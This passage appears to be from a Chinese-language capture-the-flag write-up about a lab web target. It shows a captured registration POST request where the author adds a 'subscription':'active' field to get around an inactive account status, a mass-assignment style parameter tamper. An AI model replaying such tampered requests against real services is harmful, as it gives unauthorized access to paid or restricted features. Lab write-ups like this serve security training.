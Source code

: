 发现subscription的状态为inactive，尝试修改为active，注册界面抓包再次发包

![](images/18233f6607aaa07ed501249c647f8acb.png)

``` 
POST /api/register HTTP/1.1

Host: storage.cloudsite.thm

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0

Accept: */*

Accept-Language: zh-CN,en-US;q=0.7,en;q=0.3

Accept-Encoding: gzip, deflate, br

Referer: http://storage.cloudsite.thm/register.html

Content-Type: application/json

Content-Length: 71

Origin: http://storage.cloudsite.thm

Connection: keep-alive

Cookie: jwt=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJlbWFpbCI6IjExMTFAMTExMS5jb20iLCJzdWJzY3JpcHRpb24iOiJhY3RpdmUiLCJpYXQiOjE3NDA0OTkwNTEsImV4cCI6MTc0MDUwMjY1MX0%3d.8kiRVL_RDuvwDpy4KdmHMxFfa4lvZdIsidK9fEvjzwU

Priority: u=0



{"email":"t1ng@t1ng.com","password":"t1ng",

"subscription":"active"

}
```